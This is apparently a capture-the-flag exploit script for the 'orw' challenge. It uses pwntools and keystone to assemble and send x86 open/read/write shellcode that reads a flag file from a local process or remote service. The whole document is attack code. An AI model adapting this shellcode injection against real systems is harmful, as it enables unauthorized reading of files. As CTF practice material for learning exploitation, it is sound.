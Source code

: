 ```
def pwn():
    recv = p.recvuntil(':')
    p.sendline(shellcode)
    flag = p.recv(100)
    print flag
pwn()
```

exp4:

```
import sys
from pwn import *
from keystone import *
context(os='linux', arch='i386', log_level='debug')

GDB = 1
if len(sys.argv) > 2:
    p = remote(sys.argv[1], int(sys.argv[2]))
else:
    p = process("./orw")

def main():
    if GDB:
        raw_input()
    ks = Ks(KS_ARCH_X86, KS_MODE_32)
    shellcode = """
    mov eax, 3
    xor ebx, ebx
    mov ecx, 0x0804a000
    mov edx, 0x10
    int 0x80

    mov eax, 5
    mov ebx, 0x804a000
    xor ecx, ecx
    xor edx, edx
    int 0x80

    mov ebx, eax
    mov eax, 3
    mov ecx, 0x804a000
    mov edx, 0x40
    int 0x80

    mov eax, 4
    mov ebx, 1
    mov ecx, 0x804a000
    mov edx, 0x40
    int 0x80
    """
    try:
        encoding, count = ks.asm(shellcode)
        print('count {}'.format(count))
    except KsError as e:
        print("Error: {}".format(e))
    p.recvuntil('shellcode:')
    p.send(''.join(map(chr, encoding)))

    raw_input()
    p.send('/home/orw/flag\x00')

    p.interactive()

```